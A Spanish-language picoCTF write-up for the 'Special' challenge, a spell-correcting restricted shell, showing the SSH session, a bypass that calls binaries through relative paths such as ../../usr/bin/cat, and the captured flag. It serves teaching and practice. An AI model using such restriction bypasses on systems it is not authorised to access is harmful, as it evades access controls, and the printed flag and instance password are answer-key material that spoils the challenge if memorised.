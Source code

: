 #notas_hacking
# Reto
## Descripción
Don't power users get tired of making spelling mistakes in the shell? Not anymore! Enter Special, the Spell Checked Interface for Affecting Linux. Now, every word is properly spelled and capitalized... automatically and behind-the-scenes! Be the first to test Special in beta, and feel free to tell us all about how Special streamlines every development process that you face. When your co-workers see your amazing shell interface, just tell them: That's Special (TM)
Start your instance to see connection details.`ssh -p 54195 ctf-player@saturn.picoctf.net`The password is `d8819d45`
## Solución
```bash
SergioMXZ-picoctf@webshell:~$ ssh -p 53117 ctf-player@saturn.picoctf.net
...
Special$ ../../usr/bin/ls
../../usr/bin/ls 
blargh
Special$ ../../usr/bin/cat ./blargh
../../usr/bin/cat ./blargh 
../../usr/bin/cat: ./blargh: Is a directory
Special$ ../../../usr/bin/ls ./blargh
../../../usr/bin/ls ./blargh 
flag.txt
Special$ ../../../usr/bin/cat ./blargh/flag.txt
../../../usr/bin/cat ./blargh/flag.txt 
picoCTF{5p311ch3ck_15_7h3_w0r57_0c61d335}
```
Parecía que ningún comando iba a funcionar pero al agregar `../` como prefijo parecía que no corregía su sintaxis, al no poder ejecutar nada directamente con el nombre de los comandos, te diriges directamente a ejecutarlos desde tu carpeta `../../usr/bin/ls`, esto funciono y mostro algo llamado `blargh` al seguir el mismo procedimiento e intentar hacerle un `cat` (si dejabas `...cat blargh` corregía el nombre, por lo que había que usar el `./blargh` ), resulto ser un directorio, intentamos hacerle un `ls` para ver su contenido y justo tenia la bandera, ya solo quedo ver el contenido de la bandera.
## Notas
`../../usr/bin` - directorio de binarios que tiene la mayoría de los comandos y utilidades que no son esenciales para arrancar el sistema, pero que los usuarios utilizan: `ls`, `cat` etc...
## Referencias
